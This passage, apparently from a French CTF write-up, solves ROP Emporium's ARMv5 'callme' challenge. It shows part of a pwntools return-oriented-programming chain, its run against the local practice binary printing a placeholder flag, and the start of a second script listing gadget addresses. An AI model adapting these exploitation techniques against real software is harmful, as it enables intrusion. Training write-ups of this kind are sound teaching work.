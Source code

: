 ``` python
PL+=p32(0xdeadbeef)     # r0
PL+=p32(0xcafebabe)     # r1
PL+=p32(0xd00df00d)     # r2
PL+=p32(0)              # lr adresse de retour de callme
PL+=p32(callme_three)

io.sendline(PL)
io.interactive()
```


### Execution

    [*] '/home/jce/w/ropemporium/armv5/03_callme/callme_armv5'
        Arch:     arm-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x10000)
        RUNPATH:  b'.'
    [+] Starting local process '/home/jce/w/ropemporium/armv5/03_callme/callme_armv5': pid 7553
    [*] callme_one=10618
    [*] callme_two=1066c
    [*] callme_three=1060c
    [*] Switching to interactive mode
    Thank you!
    callme_one() called correctly
    callme_two() called correctly
    ROPE{a_placeholder_32byte_flag!}
    [*] Got EOF while reading in interactive

### Script python second style style

Le script python de la solution avec boucle.

``` python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import time

# Set up pwntools for the correct architecture
elf = context.binary = ELF('callme_armv5')

# 64 : read
# 84 : ret
gs='''
b *pwnme+84
c
'''

# pop {r3, pc}
g_popr3 = 0x000108dc
# 0x00010870 : pop {r0, r1, r2, lr, pc}
g_pop_r012 = 0x00010870

if len(sys.argv)>1 and sys.argv[1] == "-d":
    io = gdb.debug([elf.path],gdbscript=gs)
else:
    io = process([elf.path])


time.sleep(.5)

```